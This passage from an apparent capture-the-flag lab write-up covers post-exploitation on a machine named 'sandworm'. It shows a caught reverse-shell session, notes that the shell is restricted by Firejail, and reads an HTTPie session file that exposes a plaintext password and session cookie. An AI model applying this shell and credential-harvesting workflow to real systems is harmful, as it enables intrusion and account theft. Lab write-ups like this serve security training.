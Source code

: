 ```
Listening on 10.10.14.18 9001 (etlservicemgr)
Connection from 10.10.11.218:50226
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$
```

## User Flag

After poking around for a bit, we find that some build-in commands simply don't run. For example, uname:

```
atlas@sandworm:/var/www/html/SSA$ uname
uname
Could not find command-not-found database. Run 'sudo apt update' to populate it.
uname: command not found
atlas@sandworm:/var/www/html/SSA$
```

This is unusual. Maybe we're inside of some restricted shell environment.
In our home directory, we find a directory called .config. Looking inside, there's a directory called firejail. After doing some reearch we find that firejail is a SUID sandbox program. (Or, a restricted shell tool). We're probably in a Firejail right now.

We can't enter the Firejail directory (Permission denied), but we can enter another directory in the same folder called httpie.

We find credentials in a file inside the httpie directory!

```
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$
```
